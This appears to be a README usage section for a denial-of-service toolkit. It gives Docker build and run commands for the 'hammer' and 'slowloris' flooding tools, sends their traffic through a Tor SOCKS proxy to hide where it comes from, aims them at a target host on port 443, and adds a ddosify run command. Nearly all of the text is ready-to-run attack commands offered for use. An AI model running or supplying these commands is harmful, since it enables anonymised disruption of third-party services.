 ## How to use

### Build containers

```shell
docker build -t hammer -f hammer.dockerfile .
docker build -t slowloris -f slowloris.dockerfile .
docker build -t tor-socks-proxy -f tor-socks-proxy.dockerfile .
```

### Run tor proxy
```shell
docker run -d -p 9150:9150 tor-socks-proxy
```
or
```shell
docker run -it --rm -p 9150:9150 tor-socks-proxy
```

### Run runners with socks5 proxy arguments
```shell
docker run -it --rm hammer:latest -x --proxy-host 172.17.0.1 --proxy-port 9150 -p 443 -s example.com
```
or
```shell
./hammer.py -x --proxy-host 172.17.0.1 --proxy-port 9150 -p 443 -s example.com
```
or
```shell
docker run -it --rm slowloris:latest -x --proxy-host 172.17.0.1 --proxy-port 9150 --https -ua --port 443 example.com
```
or
```shell
./runner.py -x --proxy-host 172.17.0.1 --proxy-port 9150 --https -ua --port 443 example.com
```

### Other tools

[https://hub.docker.com/r/ddosify/ddosify](https://hub.docker.com/r/ddosify/ddosify)
[https://github.com/ddosify/ddosify](https://github.com/ddosify/ddosify)
```shell
docker run --rm -it ddosify/ddosify ddosify -P http://172.17.0.1:8080 -t example.com
```
